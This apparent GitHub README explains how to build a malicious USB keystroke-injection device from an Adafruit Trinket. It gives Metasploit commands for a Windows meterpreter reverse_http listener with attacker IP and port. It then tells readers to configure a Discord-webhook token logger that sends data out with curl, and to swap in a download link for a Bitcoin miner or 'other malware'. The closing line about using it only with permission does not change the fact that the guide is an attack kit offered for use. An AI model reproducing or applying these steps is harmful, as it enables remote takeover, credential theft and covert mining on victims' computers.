 ## Icey's Script

[The Best USB Rubber Ducky Solution]

The first thing you will need is the device ~ roughly $40 cheaper then a real ducky ~ [Adafruit Trinket](https://www.adafruit.com/product/1501)

Secondly You Will Need The Trinket Keyboard Library Found [Here](https://learn.adafruit.com/pro-trinket-keyboard/library)

Now, you need the IDE found here [IDE](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide)

Lastly, you need the [script](https://pastebin.com/raw/wdZ0axP5)

Now, once you have the script in your IDE, you need to make a few edits:
Make a Backdoor in Metasploit with these commands
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST YOUR-IP-HERE
set LPORT YOUR-PORT-HERE
run -j
```
After that is done, put your ip and port in the ATTACKER_IP section and port in the ATTACKER_PORT section.
Once that is done, change the discord webhook two lines after the "Discord Token LoggerIpTimeName" comment and the webhook at the end of the line that starts with Curl

Now, change the download link under "Bitcoin Miner" to your own direct download link to a miner/other malware

You can also add more exploits yourself with the same format as the others
Once done, plug your device into your PC, make sure it is in 

Once all of this is done, you must do a few more things to upload the script to the device
First: Select the Pro Trinket 5V/16MHz (USB) or Pro Trinket 3V/12MHz (USB) board from the Tools->Board menu
Second: Go into the Tools -> Programmer menu and select the USBtinyISP programmer
Third: Plug in the Trinket, make sure you see the green LED lit (power good) and the red LED pulsing. Press the button if the red LED is not pulsing, to get into bootloader mode.

Click the Upload button (or select File->Upload)

And that’s it! You’re ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code.

Enjoy! and remember: only use this on PC's you have permission to use it on
